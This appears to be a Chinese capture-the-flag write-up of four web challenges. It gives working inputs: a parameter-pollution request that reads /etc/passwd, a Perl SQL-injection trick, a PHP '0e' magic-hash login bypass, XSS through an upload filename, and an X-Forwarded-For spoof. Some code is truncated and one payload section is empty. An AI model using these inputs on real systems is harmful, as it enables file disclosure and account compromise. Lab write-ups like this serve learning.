

# CountingStars 100

下载'/.DS_Store'恢复源代码，计算$$$$$$...$$$S的值是'd0llars'，提交后得到302跳转，里面的body部分就是flag

# Invisible 100

没什么好说的，加'X-Forwarded-For: 127.0.0.1'

# WeirdCamel 400

蛋疼perl的奇怪特性，http请求重复提交某一字段后会有奇怪效果....    
不附带参数直接post的话，perl代码接受到的变量的值大致好像是（这里用json表示）
```js
{
'name': 'PHONE',
'phone': '',
'email': ''
}
```
提交`name=1`有：
```js
{
'name': '1',
'phone': 'EMAIL',
'email': ''
}
```
提交`name=1&name=2`有：
```js
{
'name': '1',
'phone': '',
'email': ''
}
```
提交`name=1&name=2&name=3`有：
```js
{
'name': '1',
'phone': 'EMAIL',
'email': ''
}
```

从上面的效应大概可以知道，perl大概直接把hash结构存为一个数组，不提交参数时就是
```js
['NAME','PHONE','EMAIL']
```
解释成`{'NAME':'PHONE', 'EMAIL': ''}`，然后提交`name=1`的时候就变成：
```js
['NAME','1','PHONE','EMAIL']
```
解释成`{'NAME':'1','PHONE':'EMAIL'}`,然后提交`name=1&name=2`的时候就变成：
```js
['NAME','1','2','PHONE','EMAIL']
```
解释成`{'NAME':'1','2':'PHONE','EMAIL':''}`等等....

那么我们脑洞一下后就可以知道要改STATEMENT的值，那就提交`name=1&name=STATEMENT&name=/etc/passwd`就可以读取'/etc/passwd'啦     
读register.pl后可以发现里面有个注释了的`#print <a href='什么什么news.pl?id=1'>`，然后就是sql注入     

在perl里面转义函数quote()在形如"id=1'&id=2"的时候直接返回"1'"....也就是直接无障碍裸的sql注入....    

payload:



# BOSS 500

`http://question12.erangelab.com/login.php~`可以看代码，为什么这么执着于备份文件.....

```php
<?php
$username = $_POST['username'];
$password_md5 = $_POST['password'];
// check username and password
if($username=="editor" && $password_md5=="0e
{
// login success
// somecode...
}else{
// login fail
    echo 'ERROR:USERNAME OR PASSWORD WRONG!';
}
```

直接`username=editor&password=0`登录，然后要上传一个文件     
试了下发现`Content-Type:application/msword`，然后上传文件名中'/'前的字符全被扔掉，    
然后估计是在文件名里面XSS管理员，那么注意一下把'/'用'&#47;'代替一下就好，当然也可以用其他办法，    

XSS返回：
```
...
  'HTTP_CONNECTION' => 'keep-alive',
  'HTTP_CACHE_CONTROL' => 'max-age=0',
  'HTTP_USER_AGENT' => 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.106 Safari/537.36',
  'HTTP_ACCEPT' => 'image/webp,image/*,*/*;q=0.8',
  'HTTP_REFERER' => 'http://question12.erangelab.com/xnuca_checklist.php',
  'HTTP_ACCEPT_ENCODING' => 'gzip, deflate, sdch',
  'HTTP_ACCEPT_LANGUAGE' => 'zh-CN,zh;q=0.8',
  'PHP_SELF' => '/rec.php',
  'REQUEST_TIME_FLOAT' => 1469968445.9431269,
  'REQUEST_TIME' => 1469968445,
)array (
  'str' => 'send_role=xt=urn:btih:1207054EE7FBB53FF0708BDE6A7934B7E5095CC9',
)array (
)
```

下载cookie的磁力链接即可看到flag。